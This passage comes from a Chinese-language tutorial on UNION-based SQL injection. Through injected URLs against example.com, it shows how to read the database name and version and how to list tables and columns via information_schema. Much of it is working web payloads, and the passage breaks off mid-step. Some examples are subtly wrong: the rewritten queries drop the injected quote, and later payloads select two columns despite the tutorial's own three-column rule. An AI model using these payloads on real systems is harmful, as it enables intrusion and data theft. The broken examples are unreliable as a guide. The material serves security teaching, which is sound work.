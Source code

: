 攻击者尝试通过注入 `UNION` 来合并结果：

```
http://example.com/products?id=1' UNION SELECT 1,2,3 --+
```

**SQL查询变为：**

```
SELECT id, name, price FROM products WHERE id = 1 UNION SELECT 1,2,3;
```

- 第一部分（`SELECT id, name, price`）返回正常的商品数据。
- 第二部分（`SELECT 1, 2, 3`）返回伪造的常量值（1, 2, 3）。

这两个查询的结果将被合并成一个结果集。如果页面在显示数据时没有进行严格的验证，它可能会同时显示商品列表和常量值。

**注意：** 这个查询之所以能成功，是因为 `products` 表的查询返回了3列，第二个 `UNION SELECT` 查询也返回了3列。如果攻击者想要从数据库中获取真实的数据（例如数据库版本或表名），他们可以将 `1, 2, 3` 替换为实际的查询，如：

```
http://example.com/products?id=1' UNION SELECT 1, database(), version() --+
```

**SQL查询变为：**

```
SELECT id, name, price FROM products WHERE id = 1 UNION SELECT 1, database(), version();
```

- `database()` 返回当前数据库的名称。
- `version()` 返回数据库的版本信息。

如果查询成功，页面将显示商品列表以及数据库名称和版本信息。

#### 进阶：获取表名和列名

攻击者可以利用 `UNION` 查询获取更多敏感信息，例如数据库中的表名、列名等。

1. **获取数据库表名：**

   ```
   http://example.com/products?id=1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema='security' --+
   ```

   **SQL查询变为：**

   ```
   SELECT id, name, price FROM products WHERE id = 1 UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema='security';
   ```

   这个查询将返回数据库 `security` 中所有表的名称（通过 `group_concat` 将多个表名连接成一个字符串）。

2. **获取特定表的列名：**

   ```
   http://example.com/products?id=1' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' --+
   ```

   **SQL查询变为：**
